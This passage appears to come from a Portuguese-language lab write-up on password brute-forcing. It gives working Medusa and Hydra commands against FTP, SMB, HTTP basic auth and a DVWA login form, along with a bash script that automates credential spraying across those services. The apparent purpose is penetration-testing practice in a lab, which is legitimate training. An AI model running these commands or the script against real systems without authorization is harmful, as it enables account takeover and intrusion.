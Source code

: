 Exemplo para HTTP basic auth (se aplicável):

```bash
medusa -M http -h <TARGET_IP> -u admin -P wordlists/passwords-rockyou-small.txt -m AUTH:basic -f | tee results/medusa-http-basic.txt
```

Para formulários web (DVWA - login.php), alternativa recomendada:

* Use **Burp Suite** + Intruder for controlled web‑form bruteforce, ou
* Use **Hydra** (mais apropriado para web forms) — exemplo:

```bash
hydra -l admin -P wordlists/passwords-rockyou-small.txt <TARGET_IP> http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Incorrect" -V
```

(este comando é um exemplo ilustrativo; substitua a string de verificação `Incorrect` pelo texto real que aparece na página quando login falha.)

---

## 8) Scripts úteis

Crie `scripts/run-medusa-all.sh` para automatizar as tentativas:

```bash
#!/bin/bash
TARGET="$1"
OUTDIR="results/$(date +'%Y%m%d-%H%M%S')"
mkdir -p "$OUTDIR"

# FTP
medusa -M ftp -h "$TARGET" -U wordlists/users.txt -P wordlists/passwords-rockyou-small.txt -f > "$OUTDIR/medusa-ftp.txt" 2>&1

# SMB (spray)
medusa -M smbnt -h "$TARGET" -U wordlists/users.txt -P wordlists/passwords-rockyou-small.txt -t 8 -f > "$OUTDIR/medusa-smb.txt" 2>&1

# HTTP basic
medusa -M http -h "$TARGET" -u admin -P wordlists/passwords-rockyou-small.txt -m AUTH:basic -f > "$OUTDIR/medusa-http-basic.txt" 2>&1

echo "Resultados em: $OUTDIR"
```

Torne executável: `chmod +x scripts/run-medusa-all.sh` e execute: `./scripts/run-medusa-all.sh <TARGET_IP>`.

---

## 9) Validação e logging

* Guarde todas as saídas em `results/` com timestamps.
* Para cada credencial encontrada, valide manualmente (ex.: `ftp`, `smbclient`, browser para DVWA) e capture uma captura de tela (opcional) em `/images/` com nomes explicativos.
* Documente o tempo gasto, número de tentativas e threads (`-t`), e impacto observado.

---